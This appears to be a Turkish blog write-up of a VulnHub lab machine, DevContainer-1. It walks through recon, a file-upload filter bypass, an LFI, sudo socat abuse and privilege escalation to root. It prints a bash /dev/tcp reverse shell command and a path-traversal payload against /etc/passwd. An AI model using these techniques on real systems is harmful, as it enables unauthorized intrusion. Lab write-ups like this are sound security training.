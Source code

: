 ```yaml
---
title: "VULN DevContainer-1 Write Up"
date: 2020-09-21T22:53:05+03:00
draft: false
toc: false
images:
tags: [Vulnhub,write-up,Docker,Container,sudo,lfi,burp suite] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/devcontainer-1,548/) 'da yer alan medium seviye DevContainer-1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/vulnhub/devcontainer1/cover.png
  
---
```

## 1. Keşif Aşaması
{{< text >}}
Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.
{{< /text >}}
```bash
netdiscover -i eth1
```

{{< image src="/images/vulnhub/devcontainer1/discover.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Ip adresi tespit edildikten sonra nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/nmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< text >}}
<br>
Tarayıcı ile web servisine istek atılır. Açılan sayfa ve kaynak kodları incelendiğinde olağan dışı bir bilgiye görülmemektedir.
<br>
<br>
{{< /text >}}

{{< image src="/images/vulnhub/devcontainer1/webpage.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Gobuster aracı ile Web dizin taraması gerçekleştirilir.
```bash
gobuster dir -u http://192.168.56.104/ -w /usr/share/wordlists/dirb/big.txt 
```

{{< image src="/images/vulnhub/devcontainer1/gobuster.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Upload** dizini dikkat çekmektedir. Tarayıcıdan istek atıldığında upload sayfası karşılamaktadır. İzin verilen dosya uzantıları ekranda yazılmaktadır.

{{< image src="/images/vulnhub/devcontainer1/upload.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Burpsuite uygulaması açılır ve normal bir resim dosyası yüklendiğinde giden istek incelenir.

{{< image src="/images/vulnhub/devcontainer1/normal.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Php uzantılı dosya yüklendiğinde giden isteğin _**Content-type**_ değeri ***image/gif*** şeklinde değiştirilerek deneme yapılır. Yükleme işlemi başarılı bir şekilde gerçekleşmektedir.

{{< image src="/images/vulnhub/devcontainer1/son.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

İlgili port dinlenmeye alınarak upload ekranında yer alan index yazısına tıklanarak yüklenen dosya çağırılır ve reverse shell alınır.

{{< image src="/images/vulnhub/devcontainer1/shell.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***/etc/passwd*** dosyası görüntülenerek sistemdeki kullanılar tespit edilir. Login olabilecek kullanıcı gözükmemektedir. Bu durumda bir container içerisinde olduğumuz tespit edilir. 

{{< image src="/images/vulnhub/devcontainer1/etc.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Web uygulamasının çalıştığı ***/var/www/html*** dizine geçilir.

{{< image src="/images/vulnhub/devcontainer1/dizin.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Maintenance-Web-Docker** dizini dikkat çekmektedir. Dizine girilerek içerisinde yer alan alan dosyalar incelenir.

{{< image src="/images/vulnhub/devcontainer1/webdocker.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

```terminal
cat maintenance.sh

#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh


cat list.sh

#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

Dockerda yer alan **www** dizini ile **/home/richard/web/** dizini birbirine volume oluşturularak bağlanmıştır. List.sh dosyası shell alınacak şekilde düzenir ve çalıştırılır.

```bash
echo "bash -i &>/dev/tcp/192.168.56.105/7777 0>&1" > list.sh
```
7777 numaralı port dinlenir ve bağlantı sağlanır.

{{< image src="/images/vulnhub/devcontainer1/rev.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

User.txt dosyası okunarak ilk aşama tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/userflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

Sudo -l komutu ile yetkiler kontrol edilir.

{{< image src="/images/vulnhub/devcontainer1/sudo.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Parola gerektirmeden root yetkisi ile socat uygulamasının çalıştırılabildiği görülmektedir. **TCP-LISTEN 8080** ile 8080 portuna gelen bağlantılar dinlenir, **fork** ile gelen bağlantılar 90 portuna yönlendirilir.

```bash
sudo -u root /home/richard/HackTools/socat TCP-LISTEN\:8080\,fork TCP\:127.0.0.1\:90
```
Komut çalıştırıldığında 8080 portu gelen bağlantılar için dinlenmeye başlanır. Tarayıcıdan *http://makianaipsi:8080* istek atıldığında web sayfası açılır.

{{< image src="/images/vulnhub/devcontainer1/web.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Sayfada yer alan linklere tıklandığında lfi açığı olabileceği tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/lfi.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***view=../../../../../../etc/passwd*** parametre girilerek lfi açığı varlığı tespit edilir. Görüldüğü gibi include işlemi başarılı gerçekleşmiş ve passwd dosyası okunmuştur. 

{{< image src="/images/vulnhub/devcontainer1/passwd.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

İlk etapta upload ettiğimiz shell dosyası **../upload/files** klasörü altındadır. O dosya tekrar çağırılarak bağlantı alınır.

{{< image src="/images/vulnhub/devcontainer1/shell2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

/root dizinine geçilir ve dizin listenir ve çözüm tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/root.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}







































